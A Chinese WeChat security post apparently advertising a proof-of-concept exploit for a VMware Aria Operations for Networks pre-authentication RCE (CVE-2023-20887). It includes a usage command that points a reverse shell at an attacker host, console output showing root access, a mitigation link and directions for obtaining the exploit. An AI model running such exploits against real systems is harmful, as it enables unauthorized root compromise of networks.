 #  POC速递 - VMWare RCE CVE-2023-2087

[ Khan安全攻防实验室 ](javascript:void\(0\);)

**Khan安全攻防实验室** ![]()

微信号 KhanCJSH

功能介绍 安全不是一个人，我们来自五湖四海。研究方向Web内网渗透，免杀技术，红蓝攻防对抗，CTF。

____

___发表于_

收录于合集

![](https://gitee.com/fuli009/images/raw/master/public/20230621224426.png)

        VMWare Aria Operations for Networks (vRealize Network Insight) 在通过 Apache Thrift RPC 接口接受用户输入时容易受到命令注入的攻击。此漏洞允许远程未经身份验证的攻击者以 root 用户身份在底层操作系统上执行任意命令。RPC 接口受可以绕过的反向代理保护。VMware 已将此问题的严重性评估为处于严重严重性范围内，最高 CVSSv3 基本分数为 9.8。恶意行为者可以在设备的“root”上下文中远程执行代码。VMWare 6.x 版本易受攻击。

![](https://gitee.com/fuli009/images/raw/master/public/20230621224427.png)

  *   *   *   *   *   *   *   *   *   * 

    
    
    python CVE-2023-20887.py --url https://192.168.116.100 --attacker 192.168.116.1:1337VMWare Aria Operations for Networks (vRealize Network Insight) pre-authenticated RCE || Sina Kheirkhah (@SinSinology) of Summoning Team (@SummoningTeam)(*) Starting handler(+) Received connection from 192.168.116.100(+) pop thy shell! (it's ready)sudo bashiduid=0(root) gid=0(root) groups=0(root)hostnamevrni-platform-release

  

缓解措施

https://www.vmware.com/security/advisories/VMSA-2023-0012.html

  

POC下载地址

点击下方名片进入公众号、回复关键字【0616】获取下载链接

  

免责声明：本项目仅用于教育和道德测试。在未经事先相互同意的情况下使用此工具攻击目标是非法的。开发者不承担任何责任，也不对本工具造成的任何误用或损害负责。

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

